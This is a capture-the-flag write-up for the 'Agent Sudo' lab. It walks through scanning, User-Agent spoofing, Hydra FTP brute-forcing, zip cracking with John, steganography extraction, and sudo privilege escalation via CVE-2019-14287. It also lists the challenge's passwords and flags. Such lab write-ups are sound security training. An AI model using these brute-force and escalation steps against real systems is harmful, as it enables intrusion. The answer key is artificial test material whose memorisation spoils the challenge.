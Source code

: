 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

```
ip = 10.10.5.128
```

## Nmap

```
nmap -sC -sV -oN initial.log 10.10.5.128
```

>21/tcp open  ftp     vsftpd 3.0.3
>
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
>
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

## Task 1.

Accessing to the website I find the following text:

>Dear agents,
>
>Use your own **codename** as user-agent to access the site.
>
>From,
>Agent R 


```
nikto -h http://10.10.5.128 | tee nikto.log
```

Using **gobuster** I'm going to scan `http://10.10.5.128 /` for hidden directories or files using a wordlist and checks specified file extensions like php or txt.

```
gobuster dir -u http://10.10.5.128 / -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,sh,cgi,html,css,js,py
```

With the information found on the web I am going to try to access webpages using curl and passing the header `User-Agent`. After trying some I obtain:

```
curl "http://10.10.5.128/" -H "User-Agent: C" -L

Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 

```


### Questions.

1. How many open ports?

    >3

2. How you redirect yourself to a secret page?

    >User-Agent

3. What is the agent name?

    >chris


## Task 2.

### Questions.

Knowing the name of the agent and assuming he didn't change the password, I am goin to try to perform a Brute-Force attack with Hydra:

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.5.128

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 10:37:11
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.5.128:21/
[21][ftp] host: 10.10.5.128   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-03 10:38:22
```

After accesing via ftp with the credentials found I obtain three files (To_agentJ.txt, cutie.png and cute-alien.jpg) using:

```
mget *
```

In the text is said that a agent password is stored in the images. So, I am going to use `string` on the images to find something:

```
strings cutie.png

...

IEND
To_agentR.txt
W\_z#
2a>=
To_agentR.txt
EwwT
```

It seems there are files, so, I am going `binwalk` to be sure:

```
binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

There is a ZIP file in the image, so, I am going to obtain it.

```
cd _cutie.png.extracted/
ls -al

drwxrwxr-x 2 vfg27 vfg27   4096 Dec  3 11:10 .
drwxrwxr-x 4 vfg27 vfg27   4096 Dec  3 11:06 ..
-rw-rw-r-- 1 vfg27 vfg27 279312 Dec  3 11:03 365
-rw-rw-r-- 1 vfg27 vfg27  33973 Dec  3 11:03 365.zlib
-rw-rw-r-- 1 vfg27 vfg27    280 Dec  3 11:03 8702.zip
-rw-rw-r-- 1 vfg27 vfg27      0 Dec  3 11:10 To_agentR.txt
```

If I try to extract it, it asks for a password. In order to obtain the password I am going to use `JohnTheRipper`.

```
/snap/john-the-ripper/current/run/zip2john > hashes_for_john.txt

/snap/john-the-ripper/current/run/john hashes_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

...

alien            (8702.zip/To_agentR.txt) 
```

Using the password obtained I obtain the contents of the ZIP file (To_agentR.txt):

>Agent C,
>
>We need to send the picture to 'QXJlYTUx' as soon as possible!
>
>By,
>Agent R

`QXJlYTUx` is a base64 encoded word. The decoded version is `Area51`.

Next, I am going to check if there is some steg info hidden in the other picture, using as passphrase `Area51`.

```
steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```

In the message extracted I find a new agent and password, so, I  try to access its user using ftp and ssh.

1. FTP password
    >crystal
2. Zip file password
    >alien
3. steg password
    >Area51
4. Who is the other agent (in full name)?
    >james
5. SSH password
    >hackerrules!

## Task 3.

### Questions.

Using ssh I manage too enter james machine. There are two files that I  transfer to my computer using `scp`.

1. What is the user flag?
    >b03d975e8c92a7c04146cfa7a5a313c7
2. What is the incident of the photo called?
    >Roswell alien autopsy
## Task 4.

In order to find how to escalate privileges I am going to use `linpeas`. Looking at the sudo version I see I can gain sudo access by typing:

```
sudo -u#-1 /bin/bash
```
Going to `/root` folder I find the last file needed.

### Questions.

1. CVE number for the escalation 
    >CVE-2019-14287
2. What is the root flag?
    >b53a02f55b57d4439e3341834d70c062
3. (Bonus) Who is Agent R?
    >DesKel

